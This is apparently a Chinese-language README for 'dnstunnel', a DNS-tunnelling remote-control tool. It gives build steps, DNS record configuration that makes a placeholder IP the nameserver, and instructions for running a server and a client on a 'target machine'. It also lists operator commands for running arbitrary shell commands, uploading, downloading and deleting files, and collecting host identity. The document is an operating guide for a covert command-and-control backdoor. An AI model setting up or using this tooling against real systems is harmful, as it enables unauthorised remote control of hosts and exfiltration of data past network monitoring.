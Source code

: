 #dnstunnel
一款多会话的二进制DNS远控
#编译
```
./build.sh
```
#域名配置
使用者需要在域名服务做如下配置(以gandi.net为例):  
添加一条A记录: 
```
ns1 10800 IN A 55.55.55.55
```
再添加一条NS记录: 
```
1 1800 IN NS ns1.test.website.
```
#使用说明
按照以上添加后, 在55.55.55.55上启动NDNS_server
```
./NDNS_server
```
在目标机带参数启动NDNS_client
```
./NDNS_client .1.test.website
```
#用户界面
支持如下命令
```
session <list|clientid>
getuid
upload <local> <remote>
download <remote> <local>
bash <shell cmd>
move <src> <dst>
mkdir <dir>
rmdir <dir>
rename <old> <new>
list
rm <file>
cd <dir>
pwd
hostip
Session[29727]>>
```
##session
```
session list
```
列出当前所有会话
```
session clientid
```
切换到对应会话  
##getuid  
```
getuid
```
获取当前远程会话的用户ID  
##upload
```
upload aaa bbb
```
将本地文件aaa上传到远程会话机器bbb，限制文件aaa压缩后要小于430字节  
##download
```
download aaa bbb
```
将远程文件aaa下载到本地为bbb，下载速率大概20-30字节/秒，所以千万不要下载大文件，否则耗时超级长  
##bash
```
bash which python
```
可执行任意shell命令，注意不要执行需要交互的命令  
##move
```
move <src> <dst>
```
和mv功能一致，暂未实现，可能用处很少  
##mkdir
```
mkdir aaa
```
在远端创建文件夹aaa  
##rmdir  
删除远端文件夹  
##rename  
重命令文件  
##list
```
list
```
在远端程序当前目录执行ls -lrt并返回结果  
##rm  
删除远端文件  
##cd  
切换远端程序当前目录  
##pwd  
获取远端程序当前目录  
##hostip  
获取远端机器的出口ip和主机名
